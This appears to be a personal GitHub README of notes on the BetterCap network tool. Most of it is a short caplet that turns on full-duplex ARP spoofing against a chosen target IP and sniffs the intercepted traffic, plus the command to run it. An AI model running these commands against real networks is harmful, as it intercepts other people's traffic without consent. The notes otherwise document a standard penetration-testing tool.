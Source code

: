 # BetterCap

<p align="center">
  <img alt="BetterCap" src="https://raw.githubusercontent.com/bettercap/media/master/logo.png" height="140" />
</p>

## To start with the program

<p align="center">
  bettercap iface <b>name_of_interface</b>
</p>

## spoof.cap

net.probe on
</br>set arp.spoof.full duplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>net.sniff on

## bettercap caplet

Copy the commands from <b>spoof.cap</b>, then edit it with the <b>target_IP</b> and save it in some directory with name "<i><b>spoof.cap</b></i>". Now, move to the particular directory and run the command below:
<p align="center"></br>bettercap -iface <b>name_of_interface</b> -caplet spoof.cap</p>

## Decleration

<p align="center">
  <i>I do not own this program/software/script. Neither I have the license to distributr/sell. This is for self understanding/remembering and easy access across systems for myself.</i>
</p>
